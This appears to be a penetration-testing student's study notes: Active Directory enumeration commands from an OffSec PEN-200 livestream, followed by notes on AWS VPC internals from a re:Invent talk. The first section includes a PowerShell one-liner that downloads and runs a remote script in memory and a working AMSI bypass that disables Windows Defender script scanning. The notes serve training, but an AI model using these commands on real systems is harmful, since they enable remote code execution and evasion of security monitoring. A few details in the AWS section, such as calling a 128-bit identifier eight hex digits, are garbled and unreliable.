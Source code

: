# OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.

The Windows host name will be returned by the `hostname` command.

The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it's domain-joined.

Use `net users` to enumerate all local users on Windows.

Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.

Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you're logged in with a local or domain account).

When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.

Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.

See all Windows administrators for the local system: `net localgroup administrators`

By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.

One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn't* show domain groups that are members of that group; for this you need to use PowerShell.

A good enumeration tool is `PowerView.ps1`. 

One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.

The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.

Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.

The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.

Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.

You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there's a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.

AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you're trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the "Bypass AMSI by manual modification" link).

Be aware that AMSI bypasses are *per session*, not global!

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

VPC was originally created to help *Amazon* migrate their data centers to AWS.

EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.

VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don't overlap and (2) are entirely contained within the VPC network.

VPCs are *not* VLAN based - there are at most 4096 separate VLAN tags.

VPCs are identified internally with a 128 bit number (8 hex digits).

The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn't *just* provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet's server/instance/VPC tuple matches an existing system).

The mapping service also functions as a "virtual gateway", providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.

In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*

There are two types of caches - caches to individual hosts (EC2) instances, and caches to "edges", which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.

Edges also function as a 1-to-1 NAT in their role as internet gateways.

Edge devices are called "Blackfoot", after the South African Blackfoot Penguin.

The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.

Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet - they go out to an edge device and then are routed from there to S3.

S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon ("Aspen") policy document structure.

* [AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

